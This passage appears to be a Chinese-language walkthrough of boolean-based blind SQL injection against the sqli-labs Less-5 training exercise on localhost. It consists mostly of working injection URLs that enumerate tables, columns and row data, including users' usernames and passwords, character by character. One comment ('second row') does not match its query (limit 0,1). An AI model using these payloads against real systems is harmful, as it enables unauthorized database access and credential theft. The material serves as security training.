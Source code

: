 ```
//判断第一个表的第一个字符的ascii值
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100 --+
//判断第一个表的第二个字符的ascii值               
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>100 --+
.........
由此可判断出存在表 emails、referers、uagents、users ，猜测users表中最有可能存在账户和密码，所以以下判断字段和数据在 users 表中判断
```

1. 判断表的字段

* 判断字段个数
* 判断每个字段的长度
* 猜每个字段的字符

```
//如果已经证实了存在admin表，那么猜测是否存在username字段
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select username from admin) 
  
1：判断表中字段的个数
//判断users表中字段个数是否大于5
http://127.0.0.1/sqli/Less-5/?id=1' and (select count(column_name) from information_schema.columns where table_name='users' and table_schema='security')>5 --+
 
2：判断每个字段的长度
//判断第一个字段的长度
http://127.0.0.1/sqli/Less-5/?id=1' and length((select column_name from information_schema.columns where table_name='users' limit 0,1))>5 --+
//判断第二个字段的长度   
http://127.0.0.1/sqli/Less-5/?id=1' and length((select column_name from information_schema.columns where table_name='users' limit 1,1))>5 --+
 
3：判断每个字段名字的ascii值
//判断第一个字段的第一个字符的ascii
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))>100 --+
//判断第一个字段的第二个字符的ascii
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),2,1))>100 --+
...........
 
由此可判断出users表中存在 id、username、password 字段
```

5. 爆字段中的数据

* 猜字段中数据的长度
* 猜字段数据的每个字符ascii码 得字符

```
我们知道了users中有三个字段 id 、username 、password，我们现在爆出每个字段的数据
 
1: 判断数据的长度
// 判断id字段的第一个数据的长度
http://127.0.0.1/sqli/Less-5/?id=1' and length((select id from users limit 0,1))>5 --+
// 判断id字段的第二个数据的长度
http://127.0.0.1/sqli/Less-5/?id=1' and length((select id from users limit 1,1))>5 --+
 
2：判断数据的ascii值
// 判断id字段的第一行数据的第一个字符的ascii值
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select id from users limit  0,1),1,1))>100 --+
// 判断id字段的第二行数据的第二个字符的ascii值
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select id from users limit 0,1),2,1))>100 --+
...........
```